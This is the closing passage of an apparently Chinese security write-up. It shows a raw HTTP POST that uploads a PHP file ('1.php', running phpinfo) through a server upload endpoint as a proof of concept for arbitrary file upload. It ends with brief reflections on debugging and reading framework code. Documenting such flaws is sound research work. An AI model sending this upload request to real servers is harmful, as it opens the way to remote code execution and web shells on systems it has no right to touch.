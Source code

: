 ```plain
POST /server/index.php/start?md=upload&uid=1&notify=http://127.0.0.1:8877/&sign=88c03d47ed5a1df9ed7ed9e1c1ce8afd HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
----------------------------570796120375390059114427--
```

# 总结

1.  多扣代码多调试才行，一步一步来
2.  有些时候框架忘记或者不熟悉还是要多仔细看看才行
